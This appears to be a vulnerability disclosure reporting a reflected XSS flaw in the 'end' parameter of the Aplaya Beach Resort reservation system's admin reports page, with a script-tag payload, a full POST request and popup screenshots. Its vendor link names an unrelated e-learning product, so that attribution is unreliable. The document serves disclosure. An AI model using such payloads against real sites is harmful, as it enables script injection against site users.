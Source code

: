 Vulnerability discovery author:Qianyongcun

Aplaya Beach Resort Online Reservation System – reflected XSS on (admin/mod_reports/index.php end parameter) 

Vendor Homepage:
https://www.sourcecodester.com/php/14787/elearning-system-using-phpmysqli-source-code.html 

Version:V1.0
Tested on: PHP, Apache, MySQL

Affected Page:
admin/mod_reports/index.php 
On this page,end parameter is vulnerable to reflected XSS Attack 
Proof of vulnerability:
Visit this page：http://localhost/aplaya/admin/mod_reports/index.php 

Payload：
“><script>alert(1)</script>
Request with payload:
POST /aplaya/admin/mod_reports/index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 89
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=g883r0l08f296hfd9582abk9v0
Origin: http://localhost
Referer: http://localhost/aplaya/admin/mod_reports/index.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

categ=Checkedout&end="><script>alert(1)</script>&start=2024-04-04&submit=

<img width="416" alt="image" src="https://github.com/qqqyc/vlun1/assets/53200267/596aa3ce-1c74-4c05-8f4d-3f304b764039">

Click Submit button-Trigger popup：

<img width="416" alt="image" src="https://github.com/qqqyc/vlun1/assets/53200267/8421fe1d-d24a-4bc2-a581-4b27eba8dc06">

